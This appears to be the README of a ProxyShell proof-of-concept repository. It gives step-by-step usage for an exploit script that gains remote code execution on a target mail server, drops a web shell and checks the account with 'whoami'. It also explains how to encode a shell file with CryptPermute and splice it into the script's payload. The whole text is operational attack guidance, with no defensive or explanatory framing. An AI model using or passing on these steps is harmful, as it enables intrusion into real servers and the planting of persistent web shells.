 # proxyshell-poc

## base usage
1. `python3 proxyshell_rce.py -u ip|domain -e user@domain.com`
2. `dropshell`
3. `whoami`

## generate CryptPermute content
1. execute `CryptPermute.exe shell.txt`, generate file `poc`.
2. base64 `poc` file.
3. Replace the contents of line 314 of the `proxyshell_rce.py` file:
```
<t:Content>base64 `poc` file string</t:Content>
```
